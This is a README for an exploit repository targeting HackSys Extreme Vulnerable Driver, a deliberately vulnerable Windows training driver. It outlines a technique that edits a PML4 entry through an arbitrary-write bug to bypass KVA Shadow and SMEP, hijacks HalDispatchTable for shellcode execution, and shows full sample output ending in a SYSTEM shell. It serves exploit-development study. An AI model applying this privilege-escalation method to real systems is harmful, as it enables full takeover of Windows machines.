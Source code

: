 # HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit

## Introduction

This repository contains an exploit for [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) that bypasses KVA Shadow, a mitigation for the Meltdown vulnerability.


## Exploit Overview

Leveraging [an arbitrary overwrite vulnerability in HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/b02b6ea/Driver/HEVD/Windows/ArbitraryWrite.c#L112), this exploit modifies PML4 entry to bypass both KVA Shadow and SMEP.


## Tested Environment

The exploit has been tested in the following environment:

- Windows 10 Version 22H2 (OS Build 19045.3930)
- KVA Shadow enabled
- VBS/HVCI disabled


Below is a sample output from executing the exploit:

```
C:\Users\debuggee>HEVD_ArbitraryOverwrite.exe
HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit
Windows 10 Version 22H2 (OS Build 19045.3930) with KVA Shadow enabled
-----

[*] Executable shellcode: 000002846A110000
[+] HEVD device handle: 0000000000000098
[+] Kernel base address: FFFFF80560A00000
[+] NtQueryIntervalProfile: 00007FF8C704FA00

[*] Leaking virtual address of shellcode's PML4 entry...
[!] Writing: *(000000BF51BBFC60) = *(FFFFF80560C6B573)
[*] Leaked PTE virtual address: FFFF940000000000
[*] Extracted PML4 Self Reference Entry index: 128
[*] Extracted shellcode's PML4 index: 005
[*] Calculated virtual address for shellcode's PML4 entry: FFFF944A25128028

[*] Modifying shellcode's PML4 entry to bypass SMEP and KVA Shadow...
[!] Writing: *(000000BF51BBFC70) = *(FFFF944A25128028)
[*] Leaked shellcode's PML4 entry: 8A0000015F3D5867
[*] Modified shellcode's PML4 entry: 0A0000015F3D5863
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCB8)
[*] Overwrote PML4 entry to make shellcode executable in kernel mode

[*] Modifying HalDispatchTable+0x8 for shellcode execution...
[!] Writing: *(000000BF51BBFC70) = *(FFFFF80561600A68)
[*] Leaked HalDispatchTable+0x8: FFFFF80561392EF0
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFCE0)
[*] Overwrote HalDispatchTable+0x8 to gain control flow

[*] Executing shellcode...
[*] Executable SetR13 function allocated at: 000002846A240000
[*] Setting R13 to shellcode's address
[*] Calling NtQueryIntervalProfile to execute shellcode

[*] Restoring the kernel state...
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCF8)
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFD00)

[+] Spawning a shell with SYSTEM privilege
```

```
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\Users\debuggee>whoami
nt authority\system
```


## Verifying KVA Shadow Status

Use [SpecuCheck](https://github.com/ionescu007/SpecuCheck) to verify if KVA Shadow is active on your system:

```
C:\Users\debuggee>SpecuCheck.exe
SpecuCheck v1.1.1    --   Copyright(c) 2018 Alex Ionescu
https://ionescu007.github.io/SpecuCheck/  --   @aionescu
--------------------------------------------------------

Mitigations for CVE-2017-5754 [rogue data cache load]
--------------------------------------------------------
[-] Kernel VA Shadowing Enabled:                    yes
...
```
